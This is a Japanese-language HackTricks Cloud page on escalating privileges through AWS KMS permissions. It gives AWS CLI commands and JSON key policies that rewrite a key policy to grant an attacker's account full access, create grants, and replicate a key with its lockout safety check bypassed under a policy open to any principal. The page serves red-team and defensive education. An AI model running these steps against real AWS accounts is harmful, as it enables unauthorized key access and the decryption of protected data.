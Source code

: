 # AWS - KMS 特権昇格

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じて、ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

- **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
- [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)** に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) **をフォロー**する。
- **ハッキングテクニックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## KMS

KMSに関する詳細情報は次を参照してください:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### `kms:ListKeys`,`kms:PutKeyPolicy`, (`kms:ListKeyPolicies`, `kms:GetKeyPolicy`)

これらの権限を持つと、**キーへのアクセス権限を変更**して、他のアカウントや誰でも使用できるようにすることができます:

{% code overflow="wrap" %}
```bash
aws kms list-keys
aws kms list-key-policies --key-id <id> # Although only 1 max per key
aws kms get-key-policy --key-id <id> --policy-name <policy_name>
# AWS KMS keys can only have 1 policy, so you need to use the same name to overwrite the policy (the name is usually "default")
aws kms put-key-policy --key-id <id> --policy-name <policy_name> --policy file:///tmp/policy.json
```
{% endcode %}

policy.json:
```json
{
"Version" : "2012-10-17",
"Id" : "key-consolepolicy-3",
"Statement" : [
{
"Sid" : "Enable IAM User Permissions",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<origin_account>:root"
},
"Action" : "kms:*",
"Resource" : "*"
},
{
"Sid" : "Allow all use",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<attackers_account>:root"
},
"Action" : [ "kms:*" ],
"Resource" : "*"
}
]
}
```
### `kms:CreateGrant`

これは、**プリンシパルがKMSキーを使用することを許可します:**
```bash
aws kms create-grant \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
--grantee-principal arn:aws:iam::123456789012:user/exampleUser \
--operations Decrypt
```
{% hint style="warning" %}
許可は特定の種類の操作のみを許可できます：[https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations](https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations)
{% endhint %}

{% hint style="warning" %}
KMSが生成された許可を使用するユーザーに**キーの使用を許可するには数分かかる場合がある**ことに注意してください。その時間が経過すると、プリンシパルは何も指定せずにKMSキーを使用できます。\
ただし、すぐに許可を使用する必要がある場合は、[許可トークンを使用してください](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token)（以下のコードを確認してください）。\
[**詳細はこちらを参照してください**](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token)。
{% endhint %}
```bash
# Use the grant token in a request
aws kms generate-data-key \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
–-key-spec AES_256 \
--grant-tokens $token
```
注意してください。以下のコマンドでキーの権限をリストアップすることが可能です:
```bash
aws kms list-grants --key-id <value>
```
### `kms:CreateKey`, `kms:ReplicateKey`

これらの権限を持っていると、異なるリージョンで異なるポリシーを持つKMSキーを複製することが可能です。

したがって、攻撃者はこれを悪用して、キーへのアクセス権限を昇格させ、それを使用することができます。

{% code overflow="wrap" %}
```bash
aws kms replicate-key --key-id mrk-c10357313a644d69b4b28b88523ef20c --replica-region eu-west-3 --bypass-policy-lockout-safety-check --policy file:///tmp/policy.yml

{
"Version": "2012-10-17",
"Id": "key-consolepolicy-3",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% endcode %}

### `kms:Decrypt`

この権限は、キーを使用して情報を復号化することを許可します。\
詳細については、次を確認してください：

{% content-ref url="../aws-post-exploitation/aws-kms-post-exploitation.md" %}
[aws-kms-post-exploitation.md](../aws-post-exploitation/aws-kms-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じて、ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法：

* **HackTricks で企業を宣伝したい**、または **HackTricks をPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksのスウォッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを見つける
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) に参加するか、[**telegram グループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) をフォローする
* **HackTricks** と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) の GitHub リポジトリに PR を提出して、あなたのハッキングトリックを共有する

</details>
